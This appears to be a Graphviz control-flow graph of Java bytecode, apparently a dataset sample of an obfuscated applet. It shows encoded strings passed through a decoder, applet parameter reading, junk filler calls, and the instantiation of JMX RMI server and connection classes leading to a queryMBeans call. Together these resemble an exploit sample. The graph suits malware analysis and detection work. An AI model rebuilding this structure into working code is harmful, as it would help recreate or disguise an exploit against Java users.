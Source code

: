 digraph "" {
    "r0 := @this: main"
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""
    "r0 := @this: main"->"push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\"";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"
    "push \"u\u007fq|ppidlk(,$;.#>-\')$((1<$#;=3*=2!<4\u0002\r\u0007\u0001\u001a\u0015\u0013\u001a\u0000\u0004\f\u0013\u0006\u000b\u0016\u0015\u001f\u0011\u001c\u0010\u0010\t\u0004\f\u000b\u0013aie\u0014hfcsfl\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r1"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r1";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""
    "store.r r1"->"push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\"";
    "push \"0s4\n/\u00141\u001d86!m\u000b)&4<,\u001a\f\u000b\u0007#=f\u0003!#\u0016h/m1w\u000ey;=i*\t\u001el\u0014\u0008\u0014$\u0000z\u0002\u0011\u001cx\u0013|\u0016uz*\u0007f(4\r8\u001ez\u0010\u007fwq\r\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "store.r r2"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"store.r r2";
    "load.r r0"
    "store.r r2"->"load.r r0";
    "push \"\\\"/.*\u001b,;\""
    "load.r r0"->"push \"\\\"/.*\u001b,;\"";
    "push \"\\\"/.*\u001b,;\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"virtualinvoke <main: java.lang.String getParameter(java.lang.String)>";
    "staticput <main: java.lang.String __v>"
    "virtualinvoke <main: java.lang.String getParameter(java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "staticget <main: java.lang.String __v>"
    "staticput <main: java.lang.String __v>"->"staticget <main: java.lang.String __v>";
    "load.r r2"
    "staticget <main: java.lang.String __v>"->"load.r r2";
    "load.r r1"
    "load.r r2"->"load.r r1";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"
    "load.r r1"->"staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>";
    "staticinvoke <main: java.lang.String __n(java.lang.String,java.lang.String,java.lang.String)>"->"staticput <main: java.lang.String __v>";
    "push 0"
    "staticput <main: java.lang.String __v>"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push \"}v{w\""
    "pop"->"push \"}v{w\"";
    "push \"}v{w\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticput <main: java.lang.String __Y>"
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"staticput <main: java.lang.String __Y>";
    "staticput <main: java.lang.String __Y>"->"staticget <main: java.lang.String __v>";
    "ifnull return"
    "staticget <main: java.lang.String __v>"->"ifnull return";
    "push null"
    "ifnull return"->"push null";
    "push null"->"store.r r1";
    "staticget <main: java.lang.String filename>"
    "store.r r1"->"staticget <main: java.lang.String filename>";
    "staticget <main: java.lang.String filename>"->"load.r r0";
    "store.r r0"
    "load.r r0"->"store.r r0";
    "goto load.r r1"
    "store.r r0"->"goto load.r r1";
    "goto load.r r1"->"load.r r1";
    "ifnull goto return"
    "load.r r1"->"ifnull goto return";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "ifnull goto return"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"push 0";
    "push 0"->"push null";
    "checkcast"
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "checkcast"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"load.r r0";
    "new y6u7"
    "load.r r0"->"new y6u7";
    "dup1.r"
    "new y6u7"->"dup1.r";
    "specialinvoke <y6u7: void <init>()>"
    "dup1.r"->"specialinvoke <y6u7: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <y6u7: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "pop"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"*%,$+.0;3\""
    "load.r r0"->"push \"*%,$+.0;3\"";
    "push \"*%,$+.0;3\""->"staticinvoke <main: java.lang.String coder(java.lang.String)>";
    "staticinvoke <main: java.lang.String coder(java.lang.String)>"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "checkcast"->"push null";
    "push null"->"checkcast";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "checkcast"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "push null"->"checkcast";
    "checkcast"->"load.r r1";
    "load.r r1"->"push null";
    "push null"->"checkcast";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "checkcast"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"store.r r0";
    "load.r r0"->"store.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>"
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>";
    "staticinvoke <q3p0: java.lang.Object __s(java.lang.String,java.lang.Class)>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"goto load.r r1";
}
